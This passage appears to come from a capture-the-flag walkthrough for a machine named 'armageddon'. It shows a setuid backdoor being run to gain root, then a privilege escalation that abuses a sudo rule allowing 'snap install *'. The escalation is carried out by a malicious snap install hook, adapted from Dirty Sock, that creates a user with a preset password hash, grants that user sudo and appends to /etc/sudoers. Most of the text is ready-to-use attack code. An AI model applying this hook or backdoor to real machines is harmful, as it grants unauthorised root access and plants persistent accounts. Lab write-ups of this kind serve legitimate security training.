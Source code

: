 Finally open the backdoor.

```bash
/tmp/rev -p
rev-4.4# id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
```

## Snap install

```bash
User user may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

When we find the following, we can install any malicious packet, so we will add our malicious personal crafted snap packet.

* [https://ubuntu.com/tutorials/create-your-first-snap#3-building-a-snap-is-easy](https://ubuntu.com/tutorials/create-your-first-snap#3-building-a-snap-is-easy)
* [https://shenaniganslabs.io/2019/02/13/Dirty-Sock.html](https://shenaniganslabs.io/2019/02/13/Dirty-Sock.html)

```bash
mkdir privesnap
cd privesnap
snapcraft init

touch snap/hooks/install
```

We need to create a malicious `snap/hooks/install` file, and modify `snap/snapcraft.yaml`


* install

```bash
#!/bin/bash

# dirty_sock:dirty_sock
useradd dirty_sock -m -p '$6$sWZcW1t25pfUdBuX$jWjEZQF2zFSfyGy9LbvG3vFzzHRjXfBYK0SOGfMD1sLyaS97AwnJUs7gDCY.fg19Ns3JwRdDhOcEmDpBVlF9m.' -s /bin/bash
usermod -aG sudo dirty_sock
echo "dirty_sock    ALL=(ALL:ALL) ALL" >> /etc/sudoers
```
* snapcraft.yaml

```bash
name: privesnap
version: '0.1' 
summary: Empty snap, used for exploit
description: |
    See https://github.com/initstring/dirty_sock

grade: devel
confinement: devmode

parts:
  my-part:
    plugin: nil
```
